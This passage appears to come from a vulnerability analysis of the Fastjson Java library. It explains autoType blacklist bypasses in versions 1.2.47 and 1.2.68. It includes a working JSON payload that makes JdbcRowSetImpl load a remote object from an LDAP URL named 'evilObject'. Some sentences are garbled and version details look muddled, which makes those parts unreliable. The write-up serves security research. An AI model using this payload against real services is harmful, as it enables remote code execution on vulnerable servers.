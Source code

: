 At this time, the malicious val` is successfully loaded into `mappings`. When a malicious class is requested again, the blacklist can be blocked by bypassed.

### Payload

```java
{
	"demo1": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"demo2": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
		"autoCommit": true
	}
}
```

## Fastjson 1.2.68
### analyze

After the `Fastjson 1.2.47` version vulnerability broke out, the official fixed the vulnerability in `Fastjson 1.2.48`. In the `MiscCodec` processed the Class class, the `cache` was set to `false`, and the default call of the overloaded method of the `loadClass` was changed to not cache, which avoided the use of `Class` to cache malicious class names in advance. Until a new vulnerability exploit appeared in the `Fastjson 1.2.68` version, using `expectClass` to bypass `checkAutoType`.

Version `Fastjson 1.2.47` has updated a new security control point `safeMode`. If the application enables `safeMode`, an exception will be directly thrown in `checkAutoType`. This method is to completely prohibit `autoType`.

![](./images/47.png)

But it appears in this version
A new way of bypassing: use `expectClass` to bypass `checkAutoType`. There is such logic in the `checkAutoType` function: If the function has the `expectClass` parameter, and the class name passed is a subclass or implementation of `expectClass` and is not in the blacklist, you can pass the security detection of `checkAutoType`.

![](./images/48.png)

According to the above idea, I found whether there is a controllable `expectClass` parameter entry method among the several overloading methods of `checkAutoType`, and finally found the following classes:
 - ThrowableDeserializer#deserialze
 - JavaBeanDeserializer#deserialze

Follow up on the `ThrowableDeserializer#deserialze` method, which directly passes the class after `@type` into `checkAutoType`, and the `expectClass` is `Throwable.class`.

![](./images/49.png)
